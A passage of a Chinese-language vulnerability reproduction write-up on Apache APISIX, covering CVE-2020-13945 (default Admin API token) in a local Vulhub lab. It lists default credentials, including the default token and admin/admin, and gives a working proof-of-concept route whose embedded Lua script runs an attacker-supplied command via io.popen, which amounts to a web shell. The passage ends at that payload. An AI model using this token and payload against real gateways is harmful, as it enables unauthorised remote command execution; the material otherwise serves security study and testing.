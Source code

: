 [Apache APISIX](https://github.com/apache/apisix/tree/master)是一个动态、实时、高性能的API网关。<font style="color:rgba(0, 0, 0, 0.85);">与传统的API网关相比，APISIX是通过插件的形式来提供负载均衡、日志记录、身份鉴权、流量控制等功能。本文主要对其部分CVE历史漏洞进行复现和分析。 </font>

<font style="color:rgba(0, 0, 0, 0.85);">渗透测试的基本信息：</font>

| 系统 | 默认端口 | 默认凭据 |
| :---: | :---: | :---: |
| <font style="color:rgb(79, 79, 79);">Apache APISIX</font> | 9080 | <font style="color:rgb(79, 79, 79);">edd1c9f034335f136f87ad84b625c8f1</font> |
| <font style="color:rgb(79, 79, 79);">Apache APISIX Dashboard</font> | 9000 | admin/admin |


# <font style="color:rgb(54, 54, 54);background-color:rgb(252, 252, 252);">CVE-2020-13945</font>
根据CVE的描述，漏洞发生在当使用者开启了Admin API，没有配置相应的IP访问策略，且没有修改配置文件Token的情况下，则攻击者利用Apache APISIX的默认Token即可访问Apache APISIX，从而控制APISIX网关。

> Apache APISIX的默认Token是`edd1c9f034335f136f87ad84b625c8f1`。
>
> ![](https://cdn.nlark.com/yuque/0/2025/png/43311313/1758850910754-203fe012-a7d9-4bbf-bb42-d71c7a918751.png)
>

漏洞提出时受影响的版本是1.2、1.3、1.4、1.5。

这个配置文件所在目录是`conf/config.yaml`，查看历史代码可以发现官方在`release/3.10`才把这个问题修复，之前都只是给出安全提醒：

![](https://cdn.nlark.com/yuque/0/2025/png/43311313/1758850951270-7c8ac4ad-2ffe-4e03-89f9-d907b8660658.png)

修复后如果配置文件Token置空，则会自动生成。

现在基于Vulhub快速搭建该漏洞环境：

```bash
git clone https://github.com/vulhub/vulhub.git
cd vulhub/apisix/CVE-2020-13945
docker-compose up -d
```

访问`http://127.0.0.1:9080/`，可以看到默认的404页面：

![](https://cdn.nlark.com/yuque/0/2025/png/43311313/1758853174992-28349543-e748-41db-b423-050c6ae7faeb.png)

阅读APISIX的[Admin API](https://apisix.apache.org/zh/docs/apisix/3.10/admin-api/#description)文档，了解如何配置路由，然后开始构造PoC。

首先将访问`http://127.0.0.1:9080/`的请求包的请求方法修改为POST，URL改成`/apisix/admin/routes`（路由资源请求地址），然后加上X-API-KEY参数（即`./conf/config.yaml`文件中的`deployment.admin.admin_key.key`），路由配置如下：

```bash
{
    "uri": "/attack",
    "script": "local _M = {} \n function _M.access(conf, ctx) \n local os = require('os')\n local args = assert(ngx.req.get_uri_args()) \n local f = assert(io.popen(args.cmd, 'r'))\n local s = assert(f:read('*a'))\n ngx.say(s)\n f:close()  \n end \nreturn _M",
    "upstream": {
        "type": "roundrobin",
        "nodes": {
            "example.com:80": 1
        }
    }
}
```
